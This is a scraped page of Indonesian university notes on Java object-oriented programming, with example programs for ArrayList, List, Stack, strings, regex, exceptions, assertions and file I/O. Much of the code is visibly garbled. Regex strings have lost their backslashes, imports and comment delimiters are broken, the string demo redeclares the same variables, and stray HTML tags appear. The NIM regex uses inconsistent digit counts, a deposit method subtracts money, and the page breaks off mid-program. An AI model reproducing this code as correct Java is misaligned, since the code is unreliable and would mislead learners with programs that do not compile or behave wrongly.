WeTofu
"Semakin berisi, semakin merunduk"
Kontributor :
Berbagi mulai dari :
-
Materi Kuliah :
-
Bebas :
Perkuliahan
Materi Perkuliahan S1-Informatika, dari Universitas Sebelas Maret
akan diforward ke google drive untuk dapat diunduh materinya :)
Semester 1
Semester 2
Semester 3
- Sistem Operasi
- Pemrograman Berorientasi Objek
- Metode Numerik
- Desain dan Analisis Algoritma
- Aljabar Linier
- MTK Diskrit 2
- Basis Data
Semester 4
Catatan perkuliahan : github/wetofu
*masih dalam proses
Pemrograman Berorientasi Objek (PBO)
- Java Generics(ArrayList,Set,Map,Enum,Stack,Queue)
- String Operation
- Regex
- Exception & Assertion
- I/O
Java Generics
- Array List
sumber : http://jagocoding.com/tutorial/1142/Belajar_ArrayList_di_Java%20URL
- Pakai fitur ini ketika jumlah Data itu tidak bisa Anda tentukan sendiri melainkan dari
si User.
- Contoh program sederhananya seperti program Sequential Searching.
Pada program Sequential Searching, jumlah Data sebenarnya bisa di modifikasi menjadi 2
pilihan yakni :
- Jumlah Data ditentukan sendiri oleh si Programmer
- Jumlah Data di input oleh si User.
import java.util.ArrayList;
import java.util.Scanner;
/**
*
* @author Yudi Setiawan
*
* Input Data dengan ArrayList
*
*/
public class InputData
{
public static void main(String[] args)
{
// Buat Objek dari ArrayList
ArrayList arr_data = new ArrayList();
// Input jumlah Data yang di inginkan oleh User
System.out.print("Input jumlah Data : ");
int jlh_data = new Scanner(System.in).nextInt();
// Input Data dan masukkan ke dalam objek ArrayList yang telah Anda buat
for(int a = 0; a < jlh_data; a++)
{
System.out.print("Masukkan Data ke-"+(a+1)+": ");
arr_data.add(new Scanner(System.in).nextLine());
}
// Tampilkan nilai yang di simpan di dalam ArrayList
System.out.println("\nTampilkan Data yang di input");
for(Object o : arr_data)
{
System.out.println(o);
}
// Masukkan Data yang akan dihapus
System.out.print("\nInput Data yang akan dihapus : ");
String data_hapus = new Scanner(System.in).nextLine();
// Lakukan penghapusan Data di dalam ArrayList
arr_data.remove(data_hapus);
// Tampilkan kembali nilai yang di simpan di dalam ArrayList
System.out.println("\nTampilkan kembali Data yang ada di dalam ArrayList");
for(Object o : arr_data)
System.out.println(o);
}
}
- 'add' digunakan untuk memasukkan sebuah value ke dalam ArrayList. Sedikit catatan, bahwa pada umumnya ArrayList hanya bisa menyimpan tipe data Object. Namun, Anda bisa mengubahnya sesuai keinginan Anda dengan cara mem-parsing tipe datanya dari object ke tipe data lainnya seperti integer, double dan lainnya. Bisa Anda lihat pada contoh berikutnya.
- 'remove' digunakan untuk menghapus sebuah value dari daftar ArrayList yang tersedia menggunakan nomor index maupun langsung dari value-nya. Sedikit catatan, bahwa ketika sebuah value dimasukkan ke dalam ArrayList maka, index pertamanya selalu dimulai dari nol(0) dan secara otomatis indexnya akan bertambah dengan sendirinya. Hal inilah yang saya sebut tadi dengan fleksible. Jumlah Datanya tidak terbatas.
- 'Object o : arr_data' berarti, Anda akan melakukan perulangan sebanyak jumlah Data yang terisi di dalam ArrayList.
Sequential Program dengan array
import java.util.ArrayList;
import java.util.Scanner;
/**
*
* @author Yudi Setiawan
*
* Contoh Program Sequential Searching dengan fitur ArrayList
*
*/
public class SequentialSearchingArrayList
{
public static void main(String[] args)
{
// Buat Objek ArrayList dan set datanya menjadi integer
ArrayList<Integer> arr_data = new ArrayList();
// Buat Objek Scanner
Scanner scan = new Scanner(System.in);
// Input jumlah Data yang di inginkan oleh User
System.out.print("Input jumlah Data : ");
int jlh_data = scan.nextInt();
// Input tiap nilai dan masukkan ke dalam ArrayList
System.out.println("\nInput nilai Data");
for(int a = 0; a < jlh_data; a++)
{
System.out.print("Data ke-"+(a+1)+" : ");
int value = scan.nextInt(); // Membaca inputan dari si User
// Masukkan ke dalam ArrayList
arr_data.add(value);
}
// Tampilkan Data hasil inputan
System.out.println("\nData yang ada di dalam ArrayList");
int posisi = 1;
for(Integer i : arr_data)
{
System.out.println("-->Data ke-"+posisi+" : "+i);
posisi++;
}
// Input Data yang akan dicari
System.out.print("\nInput Data yang akan dicari : ");
int cari = scan.nextInt();
// Proses Pencarian di dalam ArrayList
int iterasi = 1;
boolean temu = false;
for(Integer i : arr_data)
{
if(i == cari)
{
System.out.println("Iterasi ke-"+iterasi);
System.out.println(i+" == "+cari);
temu = true;
break;
}
else
{
System.out.println("Iterasi ke-"+iterasi);
System.out.println(i+" != "+cari);
}
iterasi++;
System.out.println();
}
if(temu == true)
System.out.println("\nData ditemukan pada iterasi ke-"+iterasi);
else
System.out.println("\nData tidak ditemukan");
}
}
import java.util.ArrayList;
public class Main {
public static void main(String[] args) {
ArrayList<String> cars = new ArrayList<String>();
cars.add("Volvo");
cars.add("BMW");
cars.add("Ford");
cars.add("Mazda");
System.out.println(cars);
cars.get(0);
cars.set(0, "Opel");
cars.remove(0);
cars.size();
for (int i = 0; i < cars.size(); i++) {
System.out.println(cars.get(i));
}
for (String i : cars) {
System.out.println(i);
}
cars.clear();
}
}
- List :
package oop.java.list;
import java.util.ArrayList;
import java.util.List;
// https://www.geeksforgeeks.org/list-interface-java-examples/
// demo list di Java
public class ListDemo {
public static void main(String[] args) {
// membuat list
// Creating a list
List<Integer> l1 = new ArrayList<Integer>();
// menambahkan element list
// Adds 1 at 0 index
l1.add(0, 1);
// Adds 2 at 1 index
l1.add(1, 2);
System.out.println("list l1: "+l1);
// Creating another list
List<Integer> l2 = new ArrayList<Integer>();
l2.add(1);
l2.add(2);
l2.add(3);
// menambahkan list l2 ke l1 di index 1
// Will add list l2 from 1 index
l1.addAll(1, l2);
System.out.println("list l1 after l2 added: "+l1);
// menghapus element l1 di index 1
// Removes element from index 1
l1.remove(1);
System.out.println("list l1 after 1 removed: "+l1);
// menampilkan element l1 di index 3
// Prints element at index 3
System.out.println("element of l1 at index 3: "+l1.get(3));
// mengganti element l1 di index 0 dengan nilai 5
// Replace 0th element with 5
l1.set(0, 5);
System.out.println("list l1 after 0th element replaced with 5: "+l1);
}
}
package oop.java.list;
import java.util.ArrayList;
import java.util.List;
public class ListDemo2 {
// creating ArrayList
List<String> al = new ArrayList<>();
// add ArrayList elements
void addToList() {
al.add("S1");
al.add("UNS");
// menambahkan element di index 1
al.add(1, "Informatika");
// print ArrayList
System.out.println(al);
}
void changeListElement() {
// print ArrayList sebelum diubah
System.out.println("Initial ArrayList " + al);
// ubah element index 2
al.set(2, "Universitas Sebelas Maret");
// print ArrayList setelah diubah
System.out.println("Updated ArrayList " + al);
}
void iterateListELement() {
// Using the Get method and the
// for loop
for (int i = 0; i < al.size(); i++) {
System.out.print(al.get(i) + " ");
}
System.out.println();
// Using the for each loop
for (String str : al)
System.out.print(str + " ");
}
void removingListElement() {
// print list awal
System.out.println("Initial ArrayList " + al);
// hapus list element index 1
al.remove(1);
// print list
System.out.println("After the 1st Index Removal " + al);
// hapus element S1
al.remove("S1");
// print list
System.out.println("After the Object Removal " + al);
}
public static void main(String[] args) {
ListDemo2 ld2 = new ListDemo2();
ld2.addToList();
ld2.changeListElement();
ld2.iterateListELement();
ld2.removingListElement();
}
}
package oop.java.list;
import java.util.List;
import java.util.Vector;
// https://www.geeksforgeeks.org/list-interface-java-examples/
// contoh Vector
// Vector adalah class yang mengimplements interface List
/*
* Vector is a class which is implemented in the collection framework implements a growable array of objects.
* Vector implements a dynamic array that means it can grow or shrink as required.
* Like an array, it contains components that can be accessed using an integer index. */
public class VectorDemo {
public static void main(String[] args) {
// Size of the vector
int n = 5;
// Declaring the List with initial size n
List<Integer> v = new Vector<Integer>(n);
// Appending the new elements
// at the end of the list
for (int i = 1; i <= n; i++)
v.add(i);
// Printing elements
System.out.println(v);
// Remove element at index 3
v.remove(3);
// Displaying the list after deletion
System.out.println(v);
// Printing elements one by one
for (int i = 0; i < v.size(); i++)
System.out.print(v.get(i) + " ");
}
}
package oop.java.list;
import java.util.List;
import java.util.Stack;
// https://www.geeksforgeeks.org/list-interface-java-examples/
// class ini menunjukkan contoh implementasi Stack
// https://www.geeksforgeeks.org/stack-class-in-java
/
* Stack is a class which is implemented in the collection framework and extends the vector class models
* and implements the Stack data structure.
* The class is based on the basic principle of last-in-first-out.
* In addition to the basic push and pop operations, the class provides three more functions of empty, search and peek./
public class StackDemo {
// Declaring the List
List<Integer> s = new Stack<Integer>();
void createStack() {
// Size of the stack
int n = 5;
// Appending the new elements
// at the end of the list
for (int i = 1; i <= n; i++)
((Stack<Integer>) s).push(i);
// Printing elements
System.out.println(s);
}
void searchStack() {
System.out.println("Does the stack contains '5'? " + ((Stack<Integer>) s).search(5));
// Checking for the element "4"
System.out.println("Does the stack contains '1'? " + ((Stack<Integer>) s).search(1));
// Checking for the element "Hello"
System.out.println("Does the stack contains 'Hello'? " + ((Stack<Integer>) s).search("Hello"));
}
void printStack() {
// Printing elements one by one
for (int i = 0; i < s.size(); i++)
System.out.print(s.get(i) + " ");
}
public static void main(String[] args) {
StackDemo sd = new StackDemo();
sd.createStack();
sd.searchStack();
sd.printStack();
}
}
package oop.java.list;
import java.util.LinkedList;
import java.util.List;
// https://www.geeksforgeeks.org/list-interface-java-examples/
// class ini menunjukkan contoh implementasi LinkedList
/* https://www.geeksforgeeks.org/data-structures/linked-list
* LinkedList is a class which is implemented in the collection framework which inherently
* implements the linked list data structure.
* It is a linear data structure where the elements are not stored in contiguous locations
* and every element is a separate object with a data part and address part.
* The elements are linked using pointers and addresses.
* Each element is known as a node. Due to the dynamicity and ease of insertions and deletions,
* they are preferred over the arrays*/
public class LinkedListDemo {
public static void main(String[] args) {
// Size of the LinkedList
int n = 5;
// Declaring the List with initial size n
List<Integer> ll = new LinkedList<Integer>();
// Appending the new elements
// at the end of the list
for (int i = 1; i <= n; i++)
ll.add(i);
// Printing elements
System.out.println(ll);
// Remove element at index 3
ll.remove(3);
// Displaying the list after deletion
System.out.println(ll);
// Printing elements one by one
for (int i = 0; i < ll.size(); i++)
System.out.print(ll.get(i) + " ");
}
}
String Operation
https://www.w3schools.com/java/java_strings.asphttps://www.geeksforgeeks.org/strings-in-java/
// Java code to illustrate String
import java.io.;
import java.lang.;
class BelajarString{
public static void main(String[] args){
String greeting = "Hello";
String txt = "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
System.out.println("The length of the txt string is: " + txt.length());
String txt = "Hello World";
System.out.println(txt.toUpperCase()); // Outputs "HELLO WORLD"
System.out.println(txt.toLowerCase()); // Outputs "hello world"
String txt = "Please locate where 'locate' occurs!";
System.out.println(txt.indexOf("locate")); // Outputs 7
String firstName = "John";
String lastName = "Doe";
System.out.println(firstName + " " + lastName);
String firstName = "John ";
String lastName = "Doe";
System.out.println(firstName.concat(lastName));
String txt = "We are the so-called "Vikings" from the north.";
String txt = "It's alright.";
String txt = "The character \ is called backslash.";
// \n New Line
// \r Carriage Return
// \t Tab
// \b Backspace
// \f Form Feed
String x = "10";
String y = "20";
String z = x + y; // z will be 1020 (a String)
String x = "10";
int y = 20;
String z = x + y; // z will be 1020 (a String)
// Declare String without using new operator
String s = "GeeksforGeeks";
// Prints the String.
System.out.println("String s = " + s);
// Declare String using new operator
String s1 = new String("GeeksforGeeks");
// Prints the String.
System.out.println("String s1 = " + s1);
// StringBuffer: StringBuffer is a peer class of String that provides much of the
// functionality of strings.
// String represents fixed-length, immutable character sequences while
// StringBuffer represents growable and writable character sequences.
StringBuffer s = new StringBuffer("GeeksforGeeks");
byte[] b_arr = {71, 101, 101, 107, 115};
String s_byte =new String(b_arr); //Geeks
byte[] b_arr = {71, 101, 101, 107, 115};
Charset cs = Charset.defaultCharset();
String s_byte_char = new String(b_arr, cs); //Geeks
byte[] b_arr = {71, 101, 101, 107, 115};
String s = new String(b_arr, "US-ASCII"); //Geeks
byte[] b_arr = {71, 101, 101, 107, 115};
String s = new String(b_arr, 1, 3); // eek
byte[] b_arr = {71, 101, 101, 107, 115};
Charset cs = Charset.defaultCharset();
String s = new String(b_arr, 1, 3, cs); // eek
byte[] b_arr = {71, 101, 101, 107, 115};
String s = new String(b_arr, 1, 4, "US-ASCII"); // eeks
char char_arr[] = {'G', 'e', 'e', 'k', 's'};
String s = new String(char_arr); //Geeks
char char_arr[] = {'G', 'e', 'e', 'k', 's'};
String s = new String(char_arr , 1, 3); //eek
int[] uni_code = {71, 101, 101, 107, 115};
String s = new String(uni_code, 1, 3); //eek
StringBuffer s_buffer = new StringBuffer("Geeks");
String s = new String(s_buffer); //Geeks
StringBuilder s_builder = new StringBuilder("Geeks");
String s = new String(s_builder); //Geeks
String s= "GeeksforGeeks";
// or String s= new String ("GeeksforGeeks");
// Returns the number of characters in the String.
System.out.println("String length = " + s.length());
// Returns the character at ith index.
System.out.println("Character at 3rd position = " + s.charAt(3));
// Return the substring from the ith index character
// to end of string
System.out.println("Substring " + s.substring(3));
// Returns the substring from i to j-1 index.
System.out.println("Substring = " + s.substring(2,5));
// Concatenates string2 to the end of string1.
String s1 = "Geeks";
String s2 = "forGeeks";
System.out.println("Concatenated string = " + s1.concat(s2));
// Returns the index within the string
// of the first occurrence of the specified string.
String s4 = "Learn Share Learn";
System.out.println("Index of Share " + s4.indexOf("Share"));
// Returns the index within the string of the
// first occurrence of the specified string,
// starting at the specified index.
System.out.println("Index of a = " + s4.indexOf('a',3));
// Checking equality of Strings
Boolean out = "Geeks".equals("geeks");
System.out.println("Checking Equality " + out);
out = "Geeks".equals("Geeks");
System.out.println("Checking Equality " + out);
out = "Geeks".equalsIgnoreCase("gEeks ");
System.out.println("Checking Equality " + out);
//If ASCII difference is zero then the two strings are similar
int out1 = s1.compareTo(s2);
System.out.println("the difference between ASCII value is="+out1);
// Converting cases
String word1 = "GeeKyMe";
System.out.println("Changing to lower Case " + word1.toLowerCase());
// Converting cases
String word2 = "GeekyME";
System.out.println("Changing to UPPER Case " + word2.toUpperCase());
// Trimming the word
String word4 = " Learn Share Learn ";
System.out.println("Trim the word " + word4.trim());
// Replacing characters
String str1 = "feeksforfeeks";
System.out.println("Original String " + str1);
String str2 = "feeksforfeeks".replace('f' ,'g') ;
System.out.println("Replaced f with g -> " + str2);
}
}
Praktikum 6 :
// Tugas Praktikum 6
public class Prak6 {
public static void main(String[] args) {
String teks = "Program Studi Informatika FMIPA UNS adalah salah satu program studi di Fakultas Matematika dan Ilmu Pengetahuan Alam Universitas Sebelas Maret Surakarta yang berdiri sejak tanggal 29 Januari 2007 dengan nama Program Studi Ilmu Komputer melalui SK Pendirian 163/D/T/2007. Pada tahun 2009 berganti nama menjadi Program Studi Informatika berdasarkan pada surat perpanjangan ijin operasional";
// jumlah karakter (spasi)
// jumlah karakter (!spasi)
// jumlah kata
int jml_char_spc = teks.length();
int jml_char = teks.replace(" ","").length();
// ditambah 1 krn agar pas :)
int jml_kata = jml_char_spc - jml_char + 1;
System.out.format("jumlah karakter (termasuk spasi) : %d%n", jml_char_spc);
System.out.format("jumlah karakter (tidak termasuk spasi) : %d%n", jml_char);
System.out.println("jumlah kata : " + jml_kata);
}
}
Regex
- Sequence of character that forms a search pattern
- can be a single character, or a more complicated pattern
- can be used to perform all types of text search and text replace operation
package com.oop.regex;
// ebook hlm 510
public class Example1 {
public static void main(String[] args) {
String s1 = "Java";
// pattern matching : mencari ada tidaknya suatu string di dalam string lain
System.out.println(s1+" equals Java : "+s1.equals("Java"));
System.out.println(s1+" matches Java : "+s1.matches("Java"));
// equals : parameter string
// matches : parameter regex (regular expression)
String regex1 = "J[a-z][a-z][a-z]";
String regex2 = "J[a-z]";
String regex3 = "j[a-z]";
System.out.println(s1+" matches "+regex1+": "+s1.matches(regex1));
System.out.println(s1+" matches "+regex2+": "+s1.matches(regex2));
System.out.println(s1+" matches "+regex3+": "+s1.matches(regex3));
/
[a-z] : A single lowercase letter that is a, b, c, d, ... or z
J[a-z][a-z][a-z] : A string that consists of four characters.
The first character is J.The second character is a, b, c, d, ... or z
J[a-z] : Same as above, * means matches 0 or more occurrences of the preceding expression
*/
String s2 = "3";
String regex4 = "[0123]";
System.out.println(s2+" matches "+regex4+": "+s2.matches(regex4));
// [0123] : A single digit 0, 1, 2, or 3
}
}
Common regex sintax :
|
Subexpression
|
Matches
|
|
|
1
|
^ | Matches the begining of the line |
|
2
|
$ | Matches the end of the line |
|
3
|
[...] | Matches any single character in the brackets |
|
4
|
a| b | Matches either a or b |
|
5
|
re* | Matches 0 or more occurrences of the preceding expression |
|
6
|
re+ | Matches 1 or more of the previous thing |
Regex sintax (set) :
|
Subexpression
|
Matches
|
|
|
1
|
[abc] | Set definition, can match the letter a or b or c. |
|
2
|
[abc][vz] | Set definition, can match a or b or c followed by either v or z. |
|
3
|
[^abc] | When a caret appears as the first character inside square brackets, it negates the pattern. This pattern matches any character except a or b or c. |
|
4
|
[a-d1-7] | Ranges: matches a letter between a and d and figures from 1 to 7, but not d1. |
Meta character :
|
Subexpression
|
Matches
|
|
|
1
|
\d | Any digit, short for [0-9] |
|
2
|
\D | A non-digit, short for [^0-9] |
|
3
|
\s | A whitespace character, short for [ \t\n\x0b\r\f] |
|
4
|
\S | A non-whitespace character, short for. |
|
5
|
\w | A word character, short for [a-zA-Z_0-9] |
|
6
|
\W | A non-word character [^\w] |
|
7
|
\S+ | Several non-whitespace characters |
|
8
|
\b | Matches a word boundary where a word character is [a-zA-Z0-9_] |
Quantifier :
* |
Occurs zero or more times, is short for |
|
|
+
|
Occurs one or more times, is short for |
|
|
?
|
Occurs no or one times, |
|
| {X} |
Occurs X number of times, |
|
grouping :
- group parts of regex
- using round brackets ()
- $ you can refer to a group.
- $1 is the first group
- $2 is the second group
package com.oop.regex;
public class Example2 {
public static void main(String[] args) {
// formatting phone number
// mobile phone number, separate each 4 digits
String regex = "\b(\d{4})(\d{4})(\d{4})\b";
String replacementText = "$1-$2-$3";
System.out.println("085645123123".replaceAll(regex, replacementText));
// office phone number, separate between code area and phone number
regex = "\b(\d{1})(\d{3})(\d{6})\b";
replacementText = "(+62$2)-$3";
System.out.println("0271646999".replaceAll(regex, replacementText));
}
}
package com.oop.regex;
public class Example3 {
public static void main(String[] args) {
String EXAMPLE_TEST = "This is my small example "
+ "string which I'm going to " + "use for pattern matching.";
// matches word character [a-zA-Z_0-9]
System.out.println(EXAMPLE_TEST.matches("\\w.*"));
// split based on whitespace character [ \t\n\x0b\r\f]
String[] splitString = (EXAMPLE_TEST.split("\\s+"));
System.out.println(splitString.length);// should be 14
for (String string : splitString) {
System.out.println(string);
}
// replace all whitespace with tabs
System.out.println(EXAMPLE_TEST.replaceAll("\\s+", "\t"));
}
}
Pattern and Matcher :
- Advanced regular expressions
- java.util.regex
- create a pattern object which defines the regular expression
- pattern object allows to create a matcher object for a given string
- matcher object then allows to do regex operations on a string
package com.oop.regex;
import java.util.regex.Matcher;
import java.util.regex.Pattern;
public class Example4 {
public static void main(String[] args) {
String EXAMPLE_TEST = "This is my small example string which I'm going to use "
+ "for pattern matching.";
Pattern pattern = Pattern.compile("\w+");
// in case you would like to ignore case sensitivity,
// you could use this statement:
// Pattern pattern = Pattern.compile("\s+", Pattern.CASE_INSENSITIVE);
Matcher matcher = pattern.matcher(EXAMPLE_TEST);
// check all occurance
while (matcher.find()) {
System.out.print("Start index: " + matcher.start());
System.out.print(", End index: " + matcher.end() + " --> ");
System.out.println(matcher.group());
}
// now create a new pattern and matcher to replace whitespace with tabs
Pattern replace = Pattern.compile("\s+");
Matcher matcher2 = replace.matcher(EXAMPLE_TEST);
System.out.println(matcher2.replaceAll("\t"));
}
}
Praktikum 7 :
// Tugas praktikum 7
// Tulis sebuah program Java dengan input NIM mahasiswa FMIPA UNS
// Gunakan regular expression untuk mengekstrak asal program studi dan tahun angkatan mahasiswa berdasarkan NIM yang diinputkan!
// Misal
// M0120001 -> Matematika angkatan 2020
// M0220001 -> Fisika angkatan 2020
// M0317001 -> Kimia angkatan 2017
// M0418001 -> Biologi angkatan 2018
// M0519001 -> Informatika angkatan 2019
// M0616001 -> Farmasi angkatan 2016
// M0719001 -> Statistika angkatan 2019
// M0819001 -> Ilmu Lingkungan angkatan 2019
// G0017075 -> Bukan mahasiswa FMIPA UNS
public class Prak7 {
public static void cek_jurusan(String nim){
if (nim.matches("M01[0-9]{6,6}")){
System.out.println("Matematika angkatan "+ "20"+nim.substring(3,5));
}
else if (nim.matches("M02[0-9]{5,5}")){
System.out.println("Fisika angkatan "+ "20"+nim.substring(3,5));
}
else if (nim.matches("M03[0-9]{5,5}")){
System.out.println("Kimia angkatan "+ "20"+nim.substring(3,5));
}
else if (nim.matches("M04[0-9]{5,5}")){
System.out.println("Biologi angkatan "+ "20"+nim.substring(3,5));
}
else if (nim.matches("M05[0-9]{5,5}")){
System.out.println("Informatika angkatan "+ "20"+nim.substring(3,5));
}
else if (nim.matches("M06[0-9]{5,5}")){
System.out.println("Farmasi angkatan "+ "20"+nim.substring(3,5));
}
else if (nim.matches("M07[0-9]{5,5}")){
System.out.println("Statistika angkatan "+ "20"+nim.substring(3,5));
}
else if (nim.matches("M08[0-9]{5,5}")){
System.out.println("Ilmu Lingkungan angkatan "+ "20"+nim.substring(3,5));
}
else {
System.out.println("Bukan angkatan mahasiswa FMIPA UNS");
}
}
public static void main(String[] args) {
String nim = "M0519064";
cek_jurusan(nim);
}
}
Exception & Assertion
EXCEPTION
- Represents an error condition that can occur during the normal course of program execution
- exception handling increase robustness
EXCEPTION HANDLING
- When an exception occurs -> the normal sequence of flow is terminated and the exception-handling routine is executed
- Exception occurs -> exeption is thrown
- Exception-handling code is executed -> exception is caught
try {
// Block of code to try
}
catch(Exception e){
// Block of code to handle errors
}TYPE OF EXCEPTIONS
- Checked :
- checked at compile time
- Unchecked / runtime exceptions :
- unchecked at compile time and are detected only at runtime
ASSERTIONS
- A language feature we use to detect logical errors in a program
- display logical error when compilling
TYPE OF ASSERTION
- Postconditon assertion :
- checks for a condition that must be true after a method is executed
</ul>
<li>Precondition assertion :</li>
<ul>
<li>a checking of condition that must be true before a method is executed</li>
</ul>
<li>Control flow invariant</li>

SOURCE CODE :
Execption :
package oop.exceptions;
import java.util.Calendar;
import java.util.GregorianCalendar;
import java.util.Scanner;
// program mencari tahun lahir berdasarkan usia
public class AgeInput1 {
public int getAge(String prompt, Scanner scanner) {
System.out.print(prompt);
int age = scanner.nextInt();
return age;
}
public static void main(String[] args) {
GregorianCalendar today;
int age, thisYear, bornYr;
String answer;
Scanner scanner = new Scanner(System.in);
AgeInput1 input = new AgeInput1();
age = input.getAge("How old are you? ", scanner);
today = new GregorianCalendar();
thisYear = today.get(Calendar.YEAR);
bornYr = thisYear - age;
System.out.print("Already had your birthday this year? (Y or N)");
answer = scanner.next();
if (answer.equals("N") || answer.equals("n")) {
bornYr--;
}
System.out.println("\nYou are born in " + bornYr);
}
}
package oop.exceptions;
import java.util.Calendar;
import java.util.GregorianCalendar;
import java.util.InputMismatchException;
import java.util.Scanner;
public class AgeInput2 {
public int getAge(String prompt, Scanner scanner) {
int age = 0;
boolean keepGoing = true;
while (keepGoing) {
System.out.print(prompt);
try {
age = scanner.nextInt();
keepGoing = false;
} catch (InputMismatchException e) {
scanner.next(); // remove the leftover garbage
// from the input buffer
System.out.println("Invalid Entry.Please enter digits only.");
}
}
return age;
}
public static void main(String[] args) {
GregorianCalendar today;
int age, thisYear, bornYr;
String answer;
Scanner scanner = new Scanner(System.in);
AgeInput2 input = new AgeInput2();
age = input.getAge("How old are you? ", scanner);
today = new GregorianCalendar();
thisYear = today.get(Calendar.YEAR);
bornYr = thisYear - age;
System.out.print("Already had your birthday this year? (Y or N)");
answer = scanner.next();
if (answer.equals("N") || answer.equals("n")) {
bornYr--;
}
System.out.println("\nYou are born in " + bornYr);
}
}
package oop.exceptions;
import java.util.Calendar;
import java.util.GregorianCalendar;
import java.util.InputMismatchException;
import java.util.Scanner;
public class AgeInput3 {
public int getAge(String prompt, Scanner scanner) {
int age = 0;
while (true) {
System.out.print(prompt);
try {
age = scanner.nextInt();
if (age < 0) {
throw new Exception("Negative age is invalid");
}
return age;
} catch (InputMismatchException e) {
scanner.next(); // remove the leftover garbage
// from the input buffer
System.out.println("Invalid Entry.Please enter digits only.");
} catch (Exception e) {
System.out.println("Error: " + e.getMessage());
}
}
}
public static void main(String[] args) {
GregorianCalendar today;
int age, thisYear, bornYr;
String answer;
Scanner scanner = new Scanner(System.in);
AgeInput3 input = new AgeInput3();
age = input.getAge("How old are you? ", scanner);
today = new GregorianCalendar();
thisYear = today.get(Calendar.YEAR);
bornYr = thisYear - age;
System.out.print("Already had your birthday this year? (Y or N)");
answer = scanner.next();
if (answer.equals("N") || answer.equals("n")) {
bornYr--;
}
System.out.println("\nYou are born in " + bornYr);
}
}package oop.exceptions;
import java.util.InputMismatchException;
import java.util.Scanner;
public class AgeInput4 {
private static final String DEFAULT_MESSAGE = "Your age:";
private static final int DEFAULT_LOWER_BOUND = 0;
private static final int DEFAULT_UPPER_BOUND = 99;
private int lowerBound;
private int upperBound;
private Scanner scanner;
public AgeInput4() {
init(DEFAULT_LOWER_BOUND, DEFAULT_UPPER_BOUND);
}
public AgeInput4(int low, int high) throws IllegalArgumentException {
if (low > high) {
throw new IllegalArgumentException("Low (" + low + ") was " + "larger than high(" + high + ")");
} else {
init(low, high);
}
}
public int getAge() throws Exception {
return getAge(DEFAULT_MESSAGE);
}
public int getAge(String prompt) throws Exception {
int age;
while (true) {
System.out.print(prompt);
try {
age = scanner.nextInt();
if (age < lowerBound || age > upperBound) {
throw new Exception("Input out of bound");
}
return age; // input okay so return the value & exit
} catch (InputMismatchException e) {
scanner.next();
System.out.println("Input is invalid.\n" + "Please enter digits only");
}
}
}
private void init(int low, int high) {
lowerBound = low;
upperBound = high;
scanner = new Scanner(System.in);
}
}package oop.exceptions;
import java.util.InputMismatchException;
import java.util.Scanner;
public class AgeInput5 {
private static final String DEFAULT_MESSAGE = "Your age:";
private static final int DEFAULT_LOWER_BOUND = 0;
private static final int DEFAULT_UPPER_BOUND = 99;
private int lowerBound;
private int upperBound;
private Scanner scanner;
public AgeInput5() {
init(DEFAULT_LOWER_BOUND, DEFAULT_UPPER_BOUND);
}
public AgeInput5(int low, int high) throws IllegalArgumentException {
if (low > high) {
throw new IllegalArgumentException("Low (" + low + ") was " + "larger than high(" + high + ")");
} else {
init(low, high);
}
}
public int getAge() throws Exception {
return getAge(DEFAULT_MESSAGE);
}
public int getAge(String prompt) throws AgeInputException {
int age;
while (true) {
System.out.print(prompt);
try {
age = scanner.nextInt();
if (age < lowerBound || age > upperBound) {
throw new AgeInputException("Input out of bound", 0, 99, age);
}
return age; // input okay so return the value & exit
} catch (InputMismatchException e) {
scanner.next();
System.out.println("Input is invalid.\n" + "Please enter digits only");
}
}
}
private void init(int low, int high) {
lowerBound = low;
upperBound = high;
scanner = new Scanner(System.in);
}
}package oop.exceptions;
public class AgeInputException extends Exception {
private static final String DEFAULT_MESSAGE = "Input out of bounds";
private int lowerBound;
private int upperBound;
private int value;
public AgeInputException(int low, int high, int input) {
this(DEFAULT_MESSAGE, low, high, input);
}
public AgeInputException(String msg, int low, int high, int input) {
super(msg);
if (low > high) {
throw new IllegalArgumentException();
}
lowerBound = low;
upperBound = high;
value = input;
}
public int lowerBound() {
return lowerBound;
}
public int upperBound() {
return upperBound;
}
public int value() {
return value;
}
}package oop.exceptions;
import java.util.Calendar;
import java.util.GregorianCalendar;
import java.util.Scanner;
public class TestAgeInput4 {
public static void main(String[] args) {
GregorianCalendar today;
int age = 0, thisYear, bornYr;
String answer;
Scanner scanner = new Scanner(System.in);
AgeInput4 input = new AgeInput4();
try {
age = input.getAge("How old are you? ");
} catch (Exception e) {
// TODO Auto-generated catch block
e.printStackTrace();
}
today = new GregorianCalendar();
thisYear = today.get(Calendar.YEAR);
bornYr = thisYear - age;
System.out.print("Already had your birthday this year? (Y or N)");
answer = scanner.next();
if (answer.equals("N") || answer.equals("n")) {
bornYr--;
}
System.out.println("\nYou are born in " + bornYr);
}
}package oop.exceptions;
import java.util.Calendar;
import java.util.GregorianCalendar;
import java.util.Scanner;
public class TestAgeInput5 {
public static void main(String[] args) {
GregorianCalendar today;
int age = 0, thisYear, bornYr;
String answer;
Scanner scanner = new Scanner(System.in);
AgeInput5 input = new AgeInput5();
try {
age = input.getAge("How old are you? ");
} catch (Exception e) {
// TODO Auto-generated catch block
e.printStackTrace();
}
today = new GregorianCalendar();
thisYear = today.get(Calendar.YEAR);
bornYr = thisYear - age;
System.out.print("Already had your birthday this year? (Y or N)");
answer = scanner.next();
if (answer.equals("N") || answer.equals("n")) {
bornYr--;
}
System.out.println("\nYou are born in " + bornYr);
}
}Assertion :
package oop.assertions;
public class BankAccount {
private double balance;
public BankAccount(double initialBalance) {
balance = initialBalance;
}
public void deposit(double amount) {
double oldBalance = balance;
balance -= amount;
assert balance > oldBalance;
}
public void withdraw(double amount) {
double oldBalance = balance;
balance -= amount;
assert balance < oldBalance;
}
public double getBalance() {
return balance;
}
public static void main(String[] args) {
BankAccount acct = new BankAccount(200);
acct.deposit(25);
System.out.println("Current Balance: " + acct.getBalance());
}
}I/O
sumber : https://docs.oracle.com/javase/tutorial/essential/io/index.htmlI/O Stream :
- Byte Stream :

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
public class CopyBytes {
public static void main(String[] args) throws IOException {
FileInputStream in = null;
FileOutputStream out = null;
try {
in = new FileInputStream("xanadu.txt");
out = new FileOutputStream("outagain.txt");
int c;
while ((c = in.read()) != -1) {
out.write(c);
}
} finally {
if (in != null) {
in.close();
}
if (out != null) {
out.close();
}
}
}
}
import java.io.FileReader;
import java.io.FileWriter;
import java.io.IOException;
public class CopyCharacters {
public static void main(String[] args) throws IOException {
FileReader inputStream = null;
FileWriter outputStream = null;
try {
inputStream = new FileReader("xanadu.txt");
outputStream = new FileWriter("characteroutput.txt");
